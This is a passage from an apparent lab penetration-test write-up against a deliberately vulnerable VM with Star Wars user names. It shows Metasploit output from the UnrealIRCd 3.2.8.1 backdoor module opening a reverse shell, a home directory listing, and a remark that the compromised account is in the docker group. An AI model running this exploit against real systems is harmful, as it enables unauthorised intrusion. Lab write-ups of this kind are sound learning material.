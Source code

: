 I am not a pentester by trade, or is it something that I do very often... but I thought this was a little simple! I am guessing that the single available exploit for UnrealIRCd made this a little too easy. Anyway, after running the exploit, remote access was gained:

```none
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 192.168.19.10:2345 
[*] 192.168.19.20:6697 - Connected to 192.168.19.20:6697...
    :irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
[*] 192.168.19.20:6697 - Sending backdoor command...
[*] Command shell session 1 opened (192.168.19.10:2345 -> 192.168.19.20:49971) at 2018-07-07 22:47:02 -0400
```

Running the `whoami` command indicated that I had gained remote access using the `boba_fett` account. I felt like a bounty hunter! I thought it was interesting that I couldn't traverse the file system using this exploit, rather I was stuck in the `/opt/unrealircd/Unreal3.2` directory, but could navigate the file system by listing directories seeing what was around. I though it strange that after listing the `/home` folder, and the user who was in the group names _users_ had read and execute permission on all home directories.

```none
ls -la /home/
total 72
drwxr-xr-x 18 root             root    4096 Jul  2 21:26 .
drwxr-xr-x 24 root             root    4096 Jul  2 22:26 ..
drwxr-xr-x  3 anakin_skywalker users   4096 Jul  2 21:47 anakin_skywalker
drwxr-xr-x  3 artoo_detoo      users   4096 Jul  2 21:47 artoo_detoo
drwxr-xr-x  2 ben_kenobi       users   4096 Jul  2 21:26 ben_kenobi
drwxr-xr-x  2 boba_fett        users   4096 Jul  2 21:26 boba_fett
drwxr-xr-x  2 c_three_pio      users   4096 Jul  2 21:26 c_three_pio
drwxr-xr-x  2 chewbacca        users   4096 Jul  2 21:26 chewbacca
drwxr-xr-x  2 darth_vader      users   4096 Jul  2 21:26 darth_vader
drwxr-xr-x  2 greedo           users   4096 Jul  2 21:26 greedo
drwxr-xr-x  2 han_solo         users   4096 Jul  2 21:26 han_solo
drwxr-xr-x  2 jabba_hutt       users   4096 Jul  2 21:26 jabba_hutt
drwxr-xr-x  2 jarjar_binks     users   4096 Jul  2 21:26 jarjar_binks
drwxr-xr-x  4 kylo_ren         users   4096 Jul  2 21:47 kylo_ren
drwxr-xr-x  2 lando_calrissian users   4096 Jul  2 21:26 lando_calrissian
drwxr-xr-x  3 leia_organa      users   4096 Jul  7 22:24 leia_organa
drwxr-xr-x  2 luke_skywalker   users   4096 Jul  2 21:26 luke_skywalker
drwxr-xr-x  5 vagrant          vagrant 4096 Jul  3 00:02 vagrant
```

Unfortunately, `sudo` or `root` access was not possible as this exploit gained access using the `boba_fett` account, who was not in the `sudo` group (as indicated by the `groups` command). However, `boba_fett` was part of the `docker` group... interesting! Moving on!

## Port 21: ProFTPD version 1.3.5

Looking back over the output from the `services` command in the `msfconsole`, the next prospect I choose was the FTP server running port 21.
